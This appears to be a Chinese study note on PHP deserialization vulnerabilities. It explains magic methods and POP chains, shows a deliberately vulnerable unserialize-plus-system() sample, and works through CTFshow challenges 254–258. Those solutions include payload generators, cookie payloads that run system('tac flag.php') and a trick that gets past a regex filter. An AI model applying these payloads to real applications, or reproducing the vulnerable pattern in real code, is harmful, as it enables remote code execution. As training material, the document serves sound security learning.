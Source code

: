   
---
➢ PHP-DEMO1-序列化和反序列化

➢ PHP-DEMO2-魔术方法触发规则

➢ PHP-DEMO3-反序列化漏洞产生

➢ PHP-CTFSHOW-POP触发链构造

1、什么是反序列化操作？ - 类型转换

- PHP & JavaEE & Python（见图）

序列化：对象转换为数组或字符串等格式

反序列化：将数组或字符串等格式转换成对象

```php
serialize() //将对象转换成一个字符串

unserialize() //将字符串还原成一个对象
```

2、常见PHP魔术方法？- 对象逻辑（见图）
![[image 2.jpg]]
```php
__construct(): //当对象new的时候会自动调用

__destruct()：//当对象被销毁时会被自动调用

__sleep(): //serialize()执行时被自动调用

__wakeup(): //unserialize()时会被自动调用

__invoke(): //当尝试以调用函数的方法调用一个对象时会被自动调用

__toString(): //把类当作字符串使用时触发

__call(): //调用某个方法,若方法存在,则调用;若不存在,则会去调用__call函数。

__callStatic(): //在静态上下文中调用不可访问的方法时触发

__get(): //读取对象属性时,若存在,则返回属性值;若不存在，则会调用__get函数

__set(): //设置对象的属性时,若属性存在,则赋值;若不存在,则调用__set函数。

__isset(): //在不可访问的属性上调用isset()或empty()触发

__unset(): //在不可访问的属性上使用unset()时触发

__set_state()//调用var_export()导出类时，此静态方法会被调用

__clone()//当对象复制完成时调用

__autoload()//尝试加载未定义的类

__debugInfo()//打印所需调试信息
```

3、为什么会出现安全漏洞？

原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控后果。在反序列化的过程中自动触发了某些魔术方法。当进行反序列化的时候就有可能会触发对象中的一些魔术方法。

```php
<?php

class B{

public $cmd='ipconfig';

public function __destruct(){

system($this->cmd);

}

}
```

//函数引用，无对象创建触发魔术方法

```php
unserialize($_GET['x']);
```

4、反序列化漏洞如何利用？- POP链构造

POP：面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，序列化攻击都在PHP魔术方法中出现可利用的漏洞，因自动调用触发漏洞，但如关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

![[image2 3.jpg]]
-反序列化常见起点（见图）
-反序列化常见跳板（见图）
-反序列化常见终点（见图）

#CTFSHOW-训练链构造

254-对象引用执行逻辑

username=xxxxxx&password=xxxxxx

255-反序列化变量修改1

CODE:

```php
<?php

class ctfShowUser{

public $isVip=true;

}

$a=new ctfShowUser();

echo urlencode(serialize($a));

?>
```

Get:username=xxxxxx&password=xxxxxx

Cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

256-反序列化参数修改2

CODE:

```php
<?php

class ctfShowUser{

public $username='xiaodi';

public $password='xiaodisec';

public $isVip=true;

}

$a=new ctfShowUser();

echo urlencode(serialize($a));

?>
```

GET:username=xiaodi&password=xiaodisec

COOKIE:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xiaodi%22%3Bs%3A8%3A%22password%22%3Bs%3A9%3A%22xiaodisec%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

257-反序列化参数修改&对象调用逻辑

CODE:

```php
<?php

class ctfShowUser{

public $class = 'backDoor';

public function __construct(){

$this->class=new backDoor();

}

}

class backDoor{

public $code='system("tac flag.php");';

}

echo urlencode(serialize(new ctfShowUser));

?>
```

GET:username=xxxxxx&password=xxxxxx

COOKIE:user=O%3A11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D

258-反序列化参数修改&对象调用逻辑&正则

CODE:

```php
<?php

class ctfShowUser{

public $class = 'backDoor';

public function __construct(){

$this->class=new backDoor();

}

}

class backDoor{

public $code="system('tac flag.php');";

}

$a=serialize(new ctfShowUser());

$b=str_replace(':11',':+11',$a);

$c=str_replace(':8',':+8',$b);

echo urlencode($c);

?>
```

GET:username=xxxxxx&password=xxxxxx

COOKIE:user=O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
